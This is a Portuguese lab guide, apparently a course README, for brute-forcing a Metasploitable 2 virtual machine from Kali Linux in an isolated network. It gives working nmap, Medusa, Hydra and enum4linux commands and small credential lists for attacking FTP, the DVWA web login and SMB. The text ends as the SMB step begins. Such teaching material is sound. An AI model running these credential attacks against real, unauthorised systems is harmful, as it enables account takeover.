# Ataque de força bruta usando medusa no metasploitable

## Sobre O Projeto
Guia descrevendo um teste de invasão do metasploitable 2 usando kali linux, medusa, hydra e enum4linux.

## Ferramentas necessárias
+ vmware ou virtualbox. Esse projeto usa especificamente o vmware
+ VM1
  + kali linux: https://cdimage.kali.org/kali-2026.2/kali-linux-2026.2-live-everything-amd64.iso.torrent
+ VM2
  + metasploitable 2 https://sourceforge.net/projects/metasploitable/

## Preparações iniciais
mude a configuração do tipo de conexão da máquina virtual contendo o metasploitable2 para "host-only"



mude a configuração do tipo de conexão da máquina virtual contendo o kali linux para "host-only"



ao criar essa configuração, ambos se tornam sistemas isolados, podendo apenas enxergar um ao outro na rede

⚠️ **Aviso:** crie um snapshot do metasploitable 2 antes para evitar ter que começar do zero caso algo aconteça ou que alguma prática feita anteriormente possa interferir de maneira negativa em outra.

no metasploitable, depois de entrar com login e senha, descubra o ip da sua máquina virtual

> ip a

anote o endereço de IP inet



teste a conexão com a máquina do metasploitable usando ping

> ping -c 5 < IP > 



## Ataque de brute force no FTP do metasploitable
use o nmap para enumeração de serviços, versões disponíveis e limite as varreduras para as portas 21,22,80,445,139

> nmap -sV -p 21,22,80,445,139 < IP alvo >

💡 **Sugestão:** caso o nmap esteja demorando para processar as informações. Isso pode acontecer devido a resolução de DNS, caso isso aconteça, adicione o parâmetro "-n" no comando do nmap

> nmap -sV -n -p 21,22,80,445,139 < IP alvo >


confirme se o ftp está ativo tentando se conectar a ele

> ftp < IP alvo >



ao conectar com o ftp ele pedirá o nome de usuário e senha, algo que não sabemos até o momento, a partir desse ponto poderemos iniciar o teste de ataque de brute force usando kali linux e medusa.

crie uma lista com os possíveis nomes do usuário
+ user
+ msfadmin
+ admin
+ root

> echo -e "user\nmsfadmin\nadmin\nroot" > nome_do_arquivo_usuario.txt

crie uma lista com as possíveis senhas
+ 123456
+ password
+ qwerty
+ msfadmin

> echo -e "123456\npassword\nqwerty\nmsfadmin" > nome_do_arquivo_senha.txt



use a medusa para fazer um ataque de brute force no ftp do metasploitable

> medusa -h < IP alvo > -U nome_do_arquivo_usuario.txt -P nome_do_arquivo_senha.txt -M < módulo > -t < quantidade de threads >



⚕️ **Síntese:** o passo inicial que permitiu foi a enumeração dos serviços e suas versões usando o nmap. A partir disso podemos pesquisar arquivos de configurações que contém falhas que podemos explorar, o usuário e senha padrão definido e até falhas de seguranças documentadas em sites como exploit-db e atacar a partir desse ponto.

## Ataque de brute force em formulários de login web
Acesse o navegador e digite na barra de endereço < IP alvo/dvwa/login.php >



aperte o último botão do topo direito(do lado direito do ícone de quebra-cabeça), clique em "more tools", clique em "web developer tools" e vá para a aba "network". Isso permitirá ao navegador vigiar e listar as requisições.







💡 **Sugestão:** é possível evitar passar pelo menu pressionando ctrl+shift+i

forçaremos a entrada no site do mesmo modo como foi feito no ataque de brute force no ftp. Usaremos as mesmas senhas e usuários.

Antes da invasão, precisamos saber como os dados são organizados no formulário. É possível ter acesso a esses dados inspecionando uma das requisições na aba network



> hydra -L nome_do_arquivo_usuario.txt -P nome_do_arquivo_senha.txt < IP alvo > http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed"



❗**Complicação**: foi necessário usar o hydra para concluir essa parte, medusa consegue processar as reqisições, mas é incapaz de lidar com o redirecionamentoC(Código 302). Caso queira testar adapte o código abaixo para o seu uso.

> medusa \
> -h < IP alvo > \\ \
> -U user.txt \\ \
> -P pass.txt \\ \
> -M web-form \\ \
> -m FORM:"/dvwa/login.php" \\ \
> -m DENY-SIGNAL:"Login failed" \\ \
> -m FORM-DATA:"post?username=&password=&Login=Login"





⚕️ **Síntese:** Em um ambiente mais realista, o usuário e senha podem ser combinações comuns que a maioria das pessoas podem pensar como "12345" e "admin" ou podem ser mais complexas e únicas. Em um cenário controlado podemos minimizar as possíveis combinações por já possuirmos acesso a informações que não teríamos. Em cenários reais, seclists são usados para rodar as possíveis combinações e podemos adquirir essas listas buscando na internet como por exemplo https://github.com/danielmiessler/seclists

## Enumeração SMB e password spraying
Utilize o o enum4linux para coletar informações do sistema

> enum4linux -a < IP alvo > | tee arquivo_saida.txt



é possível ler todas as informações coletadas no arquivo criado usando o comando more

> more arquivo_saida.txt



procure no arquivo os nomes de usuário do sistema, são informações úteis para refinar o ataque.



crie uma lista de possíveis senhas e usuários que serão usados para entrar no sistema

> echo -e "user\nmsfadmin\nservice" > arquivo_usuario.txt

> echo -e "password\n123456\nWelcome123\nmsfadmin" > arquivo_senha.txt



use o medusa para fazer um ataque de brute force no smb

